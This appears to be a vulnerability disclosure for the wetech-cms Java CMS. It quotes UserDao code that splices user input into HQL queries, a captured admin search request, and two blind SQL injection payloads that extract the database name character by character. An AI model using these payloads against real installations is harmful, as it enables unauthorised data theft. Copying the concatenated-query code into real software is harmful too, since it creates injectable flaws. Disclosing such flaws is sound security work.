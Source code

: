 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

#### wetech-cms-master\wetech-core\src\main\java\tech\wetech\cms\dao\UserDao.java

```java
	@Override
	public Pager<User> findUser(String gId, String rId, String searchCode, String searchValue) {
		String hql = "from User u where 1=1";
		if (StringUtils.isNotBlank(searchCode) && StringUtils.isNotBlank(searchValue)) {
			if ("id".equals(searchCode)) {
				hql += " and u.id like '%" + searchValue + "%'";
			} else if ("username".equals(searchCode)) {
				hql += " and u.username like '%" + searchValue + "%'";
			} else if ("nickname".equals(searchCode)) {
				hql += " and u.nickname like '%" + searchValue + "%'";
			}
		}
		if (gId != null && !"".equals(gId)) {
			hql += "and u.id in (select ug.user.id from UserGroup ug where ug.group.id=" + gId + ")";
		}
		if (rId != null && !"".equals(rId)) {
			hql += "and u.id in (select ur.user.id from UserRole ur where ur.role.id=" + rId + ")";
		}
		
		return this.find(hql);
	}
```

​	Analyzing the code, I found that there are multiple parameters there with dynamic splicing.
​	From the SQL statement, we can see that there are three variables that use dynamic concatenation: searchValue, gId, and rId
​	Let's head to the front-end positioning function point. It was discovered that this is a user management feature in the admin console.

![image-20241128212129276](img/image-20241128212129276.png)

​	According to the function point, we come to the user-managed search function, try to search and capture the packet, and the following packets are captured:

```http
GET /admin/user/list.do?draw=2&columns%5B0%5D%5Bdata%5D=id&columns%5B0%5D%5Bname%5D=&columns%5B0%5D%5Bsearchable%5D=true&columns%5B0%5D%5Borderable%5D=false&columns%5B0%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B0%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B1%5D%5Bdata%5D=id&columns%5B1%5D%5Bname%5D=&columns%5B1%5D%5Bsearchable%5D=true&columns%5B1%5D%5Borderable%5D=false&columns%5B1%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B1%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B2%5D%5Bdata%5D=username&columns%5B2%5D%5Bname%5D=&columns%5B2%5D%5Bsearchable%5D=true&columns%5B2%5D%5Borderable%5D=false&columns%5B2%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B2%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B3%5D%5Bdata%5D=nickname&columns%5B3%5D%5Bname%5D=&columns%5B3%5D%5Bsearchable%5D=true&columns%5B3%5D%5Borderable%5D=false&columns%5B3%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B3%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B4%5D%5Bdata%5D=status&columns%5B4%5D%5Bname%5D=&columns%5B4%5D%5Bsearchable%5D=true&columns%5B4%5D%5Borderable%5D=false&columns%5B4%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B4%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B5%5D%5Bdata%5D=email&columns%5B5%5D%5Bname%5D=&columns%5B5%5D%5Bsearchable%5D=true&columns%5B5%5D%5Borderable%5D=false&columns%5B5%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B5%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B6%5D%5Bdata%5D=phone&columns%5B6%5D%5Bname%5D=&columns%5B6%5D%5Bsearchable%5D=true&columns%5B6%5D%5Borderable%5D=false&columns%5B6%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B6%5D%5Bsearch%5D%5Bregex%5D=false&columns%5B7%5D%5Bdata%5D=createDate&columns%5B7%5D%5Bname%5D=&columns%5B7%5D%5Bsearchable%5D=true&columns%5B7%5D%5Borderable%5D=false&columns%5B7%5D%5Bsearch%5D%5Bvalue%5D=&columns%5B7%5D%5Bsearch%5D%5Bregex%5D=false&start=0&length=15&search%5Bvalue%5D=&search%5Bregex%5D=false&searchCode=id&searchValue=&_=1732691822696 HTTP/1.1
Host: 172.21.55.165:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://172.21.55.165:8888/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=5EA494FF429C210478C61A1E2BA26079; collapase-nav=collapse-nav
Connection: close
```

​	The searchValue in the GET parameter is the injection point, try to enter single quotation marks, report an error, try to construct an SQL statement, and get payload:

```sql
1' and id like (case when ascii(substr(database(),1,1))=1 then '1' else '%' end) and id like '
```

​	The injection method is the same as the previous SQL injection method.

###### gId、rId

​	Add a gId or rId to the GET parameters, and the payload is as follows:

```sql
2 and id like (case when ascii(substr(database(),1,1))=1 then '1' else '%' end) 
```
